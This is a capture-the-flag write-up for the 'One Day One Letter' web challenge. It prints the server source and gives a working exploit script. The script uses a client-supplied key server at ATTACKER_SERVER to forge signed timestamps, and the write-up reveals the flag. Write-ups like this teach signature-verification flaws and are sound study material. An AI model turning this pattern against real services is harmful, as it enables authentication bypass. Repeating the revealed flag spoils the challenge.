

# One Day One Letter

## Description

> Everything comes to those who wait

## Solution

### Source code

#### content-server.py



```python
import json
import os
from datetime import datetime
from http import HTTPStatus
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.request import Request, urlopen
from urllib.parse import urljoin

from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

FLAG_CONTENT = os.environ.get('FLAG_CONTENT', 'abcdefghijkl')
assert len(FLAG_CONTENT) == 12
assert all(c in 'abcdefghijklmnopqrstuvwxyz' for c in FLAG_CONTENT)

def get_pubkey_of_timeserver(timeserver: str):
    req = Request(urljoin('https://' + timeserver, 'pubkey'))
    with urlopen(req) as res:
        key_text = res.read().decode('utf-8')
        return ECC.import_key(key_text)

def get_flag_hint_from_timestamp(timestamp: int):
    content = ['?'] * 12
    idx = timestamp // (60*60*24) % 12
    content[idx] = FLAG_CONTENT[idx]
    return 'FLAG{' + ''.join(content) + '}'

class HTTPRequestHandler(BaseHTTPRequestHandler):
    def do_OPTIONS(self):
        self.send_response(200, "ok")
        self.send_header('Access-Control-Allow-Origin', '*')
        self.send_header('Access-Control-Allow-Methods', 'POST, OPTIONS')
        self.send_header("Access-Control-Allow-Headers", "X-Requested-With")
        self.send_header("Access-Control-Allow-Headers", "Content-Type")
        self.end_headers()

    def do_POST(self):
        try:
            nbytes = int(self.headers.get('content-length'))
            body = json.loads(self.rfile.read(nbytes).decode('utf-8'))

            timestamp = body['timestamp'].encode('utf-8')
            signature = bytes.fromhex(body['signature'])
            timeserver = body['timeserver']

            pubkey = get_pubkey_of_timeserver(timeserver)
            h = SHA256.new(timestamp)
            verifier = DSS.new(pubkey, 'fips-186-3')
            verifier.verify(h, signature)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            dt = datetime.fromtimestamp(int(timestamp))
            res_body = f'''<p>Current time is {dt.date()} {dt.time()}.</p>
<p>Flag is {get_flag_hint_from_timestamp(int(timestamp))}.</p>
<p>You can get only one letter of the flag each day.</p>
<p>See you next day.</p>
'''
            self.wfile.write(res_body.encode('utf-8'))
            self.requestline
        except Exception:
            self.send_response(HTTPStatus.UNAUTHORIZED)
            self.end_headers()

handler = HTTPRequestHandler
httpd = HTTPServer(('', 5000), handler)
httpd.serve_forever()
```



#### time-server.py



```python
from http import HTTPStatus
from http.server import BaseHTTPRequestHandler, HTTPServer
import json
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

class HTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/pubkey':
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/plain; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = pubkey
            self.wfile.write(res_body.encode('utf-8'))
            self.requestline
        else:
            timestamp = str(int(time.time())).encode('utf-8')
            h = SHA256.new(timestamp)
            signer = DSS.new(key, 'fips-186-3')
            signature = signer.sign(h)
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-Type', 'text/json; charset=utf-8')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.end_headers()
            res_body = json.dumps({'timestamp' : timestamp.decode('utf-8'), 'signature': signature.hex()})
            self.wfile.write(res_body.encode('utf-8'))

handler = HTTPRequestHandler
httpd = HTTPServer(('', 5001), handler)
httpd.serve_forever()
```



### Exploit

When we visit the webpage, we get a single letter from the flag.



Checking HTTP history in burp, there is a POST request.



```json
{
    "timestamp": "1719135562",
    "signature": "c8a319c7e3b02ce295171f870682d22902c21dcc875f6da860f73e3abfa9cacf27b6d1cebcc18ad92cd00cdad97ecb90caddcd3530d0c06daa9a93c66290c022",
    "timeserver": "web-one-day-one-letter-time-lz56g6.wanictf.org"
}
```



If we change the timestamp, we get a `401: Unauthorized` error because the signature does not match.



```python
pubkey = get_pubkey_of_timeserver(timeserver)
h = SHA256.new(timestamp)
verifier = DSS.new(pubkey, 'fips-186-3')
verifier.verify(h, signature)
```



So, let's try to provide our own timeserver and see if we get a hit.



```json
{
    "timestamp": "1719135562",
    "signature": "c8a319c7e3b02ce295171f870682d22902c21dcc875f6da860f73e3abfa9cacf27b6d1cebcc18ad92cd00cdad97ecb90caddcd3530d0c06daa9a93c66290c022",
    "timeserver": "ATTACKER_SERVER"
}
```



We do!



```bash
+-------------------------+----------------------------------+
| Public tunnel URL       |     https://ATTACKER_SERVER      |
+-------------------------+----------------------------------+
| Local inspect dashboard |     http://localhost:46607       |
+-------------------------+----------------------------------+
| Forwarding traffic to   |     http://localhost:80          |
+-------------------------+----------------------------------+
404		GET	/pubkey
```



So, if we create our own key pair, we can sign custom forged timestamps with our own private key and then trick the server into verifying the signature against our public key!

Let's generate the keys first - remember that the filename needs to be `pubkey`.



```python
from Crypto.PublicKey import ECC

key = ECC.generate(curve='P-256')

with open('pubkey', 'wb') as f:
    f.write(key.public_key().export_key(format='PEM'))

with open('privkey', 'wb') as f:
    f.write(key.export_key(format='PEM'))
```



Next, we'll use a script that will loop through all 12 characters (days) of the flag, starting from yesterday (`i - 1`).

For each day, the script generates and signs a timestamp (using our private key) and then submits it to the content-server, with our ATTACKER_SERVER provided as the `timeserver` address.

The response is extracted with BeautifulSoup and then printed.



```python
import requests
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from bs4 import BeautifulSoup

def load_private_key():
    with open('privkey', 'rb') as f:
        return ECC.import_key(f.read())

def generate_timestamp_and_sign(timestamp):
    key = load_private_key()
    h = SHA256.new(timestamp.encode('utf-8'))
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    return timestamp, signature.hex()

def send_timestamp_and_signature(timestamp, signature, timeserver):
    url = 'https://web-one-day-one-letter-content-lz56g6.wanictf.org/'
    payload = {
        "timestamp": timestamp,
        "signature": signature,
        "timeserver": timeserver
    }
    headers = {
        'Content-Type': 'application/json',
    }
    response = requests.post(url, json=payload, headers=headers)
    return response.text

def extract_flag(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    flag_paragraph = soup.find_all('p')[1]
    flag = flag_paragraph.text.split(' ')[2].strip()
    return flag

if __name__ == "__main__":
    timeserver = "ATTACKER_SERVER"
    for i in range(12):  # 12 days
        timestamp = str(int(time.time()) + (i - 1) * 24 * 60 * 60)
        timestamp_str, signature_hex = generate_timestamp_and_sign(timestamp)
        response_text = send_timestamp_and_signature(
            timestamp_str, signature_hex, timeserver)
        flag = extract_flag(response_text)
        print(f"Flag for timestamp {timestamp_str}: {flag}")
```



With a little extra effort, you could automatically extract the flag for each copy/paste, but this will suffice for me! 😁



```bash
Flag for timestamp 1719053227: FLAG{l???????????}.
Flag for timestamp 1719139629: FLAG{?y??????????}.
Flag for timestamp 1719226031: FLAG{??i?????????}.
Flag for timestamp 1719312433: FLAG{???n????????}.
Flag for timestamp 1719398835: FLAG{????g???????}.
Flag for timestamp 1719485237: FLAG{?????t??????}.
Flag for timestamp 1719571640: FLAG{??????h?????}.
Flag for timestamp 1719658042: FLAG{???????e????}.
Flag for timestamp 1719744444: FLAG{????????t???}.
Flag for timestamp 1719830846: FLAG{?????????i??}.
Flag for timestamp 1719917248: FLAG{??????????m?}.
Flag for timestamp 1720003650: FLAG{???????????e}.
```



Flag: `FLAG{lyingthetime}`
